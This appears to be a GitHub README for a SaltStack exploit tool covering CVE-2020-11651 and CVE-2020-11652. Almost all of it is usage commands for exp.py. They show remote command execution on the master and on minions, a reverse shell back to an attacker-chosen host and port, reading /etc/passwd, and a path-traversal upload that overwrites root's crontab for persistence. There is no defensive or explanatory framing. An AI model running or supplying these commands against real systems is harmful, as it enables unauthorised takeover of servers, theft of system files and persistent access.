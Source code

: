 # SaltStack-Exp
CVE-2020-11651&amp;&amp;CVE-2020-11652 EXP

```
Exec-Master:
python exp.py --exec-choose master --exec-cmd "whoami"

Exec-Minions:
python exp.py --exec-choose minions --exec-cmd "whoami"

GetShell:
python exp.py --shell-LHOST 8.8.8.8 --shell-LPORT 4444

ReadFile:
python exp.py --read /etc/passwd

UploadFile:
python exp.py --upload-src "/test/root" --upload-dest "../../../../../../../../var/spool/cron/crontabs/root"
```
